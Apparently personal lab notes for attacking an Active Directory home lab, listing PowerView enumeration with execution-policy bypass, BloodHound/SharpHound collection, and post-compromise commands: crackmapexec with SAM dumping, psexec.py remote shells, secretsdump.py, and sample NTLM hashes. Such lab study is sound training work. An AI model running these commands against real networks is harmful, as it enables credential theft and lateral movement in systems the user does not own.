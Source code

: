 **1 Enum: Powerview & Enum**
**2 Enum: Bloodhound**
**3 PTH / Post Enum Attack**
**4 References**

---

## **1. Powerview.ps1:**

Place powerview.ps1 on normal W10 machine

`powershell -ep bypass #bypass execution policy`

cd to dir with powerview.ps1

`. .\Powerview.ps1 #runs shell - returns 0 output`

Enumerate W10 machine

```
Get-DomainPolicy
(Get-DomainPolicy)."system access" #PW/ACC info
Get-Netdomain
Get-Netdomaincontroller
Get-Netuser | select cn
Get-Netcomputer -fulldata
Get-Computerinfo #HW info
Get-Netgroup -groupname *admin* # admin group names
Get-Netgroupmember -groupname "Domain Admins"
Invoke-Sharefinder #show all shares
Get-NetGPO | select displayname, whenchanged
```

---

## **2. Bloodhound:**

```
apt install bloodhound`
sudo neo4j console
click link to open "localhost..."
default creds: neo4j:neo4j 
kali$ bloodhound && then login with new creds.
```

**Download Ingestor:**

W10 download sharphound.ps1
```
> powershell -ep bypass \
> . .\sharphound.ps1 \ 
> Invoke-BloodHound -collectionmethod All -Domain Carbon.local -Zipfilename File.zip \
```


![bloodhound.zip](Screenshots/create_bloodhound_zip.png)

move file.zip first onto baremetal Desktop then to kali VM.

import data :: enjoy

## **Attacking AD - Post-Compromise Attacks:**

## **3. Pass-The-Hash:**
```
apt install crackmapexec \ 
crackmapexec smb 192.168.86.0/24 -d carbon.local -u e.triage -p 'Password!1' \
```
![PTH_propanol_oxytocinDC_ethyl](Screenshots/Pass_Hash_e_triage.png)

`crackmapexec smb 192.168.86.0/24 -d carbon.local -u e.triage -p 'Password!1' --sam` \ 

![PTH_sam](Screenshots/PTH_sam.png) 

`psexec.py carbon.local/e.triage:'Password!1'@192.168.86.206` \


![psexec_loud_shell](Screenshots/psexec_shell_noisy.png) \ 

### **Secretsdump.py:**

`secretsdump.py carbon/e.triage:'Password!1'@192.168.86.206` \


![secrets](Screenshots/secrets_dump.png)

### **NTLM hash Example:**
````
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 

Propylene  Malz:1001:aad3b435b51404eeaad3b435b51404ee:3d888ed3f1196c792588c37ddfd32746:::

Ethyl Triage:1001:aad3b435b51404eeaad3b435b51404ee:2d450bc49b158d89cc6ec49db47ba095:::

```

***You can pass NTLM hashes around but CANNOT pass NTLMv2 hashes***

---

## **References:**

```
[log4j_notice_devs](https://community.neo4j.com/t/log4j-cve-mitigation-for-neo4j/48856)\
[powerview.ps1_GH](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerView)\
[hacktricks_BH](https://book.hacktricks.xyz/windows/active-directory-methodology/bloodhound)\
[bloodhound_GH](https://github.com/BloodHoundAD)\
[sharphound.ps1_GH](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1)
```

